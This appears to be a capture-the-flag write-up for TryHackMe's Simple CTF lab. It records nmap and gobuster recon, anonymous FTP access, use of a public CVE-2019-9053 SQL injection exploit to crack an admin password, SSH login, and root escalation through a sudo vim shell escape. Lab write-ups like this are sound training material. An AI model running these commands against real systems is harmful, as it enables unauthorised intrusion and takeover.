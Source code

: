 # SimpleCTF

My notes for TryHackMe's Simple CTF challenge. 

## Recon

### Nmap
`$ nmap -A TARGET_IP`
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.63.127
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (EdDSA)
MAC Address: 02:F5:BA:54:9A:47 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (93%), Linux 3.8 (93%), Crestron XPanel control system (89%), HP P2000 G3 NAS device (86%), ASUS RT-N56U WAP (Linux 3.4) (86%), Linux 3.1 (86%), Linux 3.16 (86%), Linux 3.2 (86%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (86%), Linux 2.6.32 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.44 ms ip-10-10-201-203.eu-west-1.compute.internal ()

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.25 seconds
```

### Gobuster

`$ gobuster dir -u  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
```
/simple (Status: 301)
/server-status (Status: 403)
```

Website running CMSMS v 2.2.8


`$ gobuster dir -u /simple -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/modules (Status: 301)
/uploads (Status: 301)
/doc (Status: 301)
/admin (Status: 301)
/assets (Status: 301)
/lib (Status: 301)
/tmp (Status: 301)
```
Seems like `/admin` is the only interesting one. 

### FTP (anonymous login)

ForMitch.txt

"Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!"




## Exploit



https://github.com/e-renna/CVE-2019-9053.git

`$ python exploit.py -u http://TARGET_IP/simple --crack -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/best110.txt`


```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

We now have access to the Admin pannel: http://TARGET_IP/simple/admin/?__c=4a7086ef3466f61107e


and ssh. 
`$ ssh -p 2222 mitch@TARGET_IP`

## Escalation

### stabalize the shell
`$ python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Get root
`$ cat .bash_history`

`$ sudo -l`
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

https://gtfobins.github.io/gtfobins/vim/

`$ sudo vim -c ':!/bin/bash'` 

We now have root!
